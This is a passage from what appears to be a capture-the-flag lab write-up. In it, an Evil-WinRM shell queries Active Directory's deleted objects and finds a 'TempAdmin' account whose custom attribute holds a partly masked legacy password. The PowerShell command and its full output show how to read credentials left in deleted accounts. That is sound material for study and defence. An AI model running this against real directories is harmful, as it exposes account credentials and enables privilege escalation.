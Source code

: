 And look at that, there's the `TempAdmin` user in the AD Recycle Bin.

```PowerShell
*Evil-WinRM* PS C:\> Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNy*******kbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```
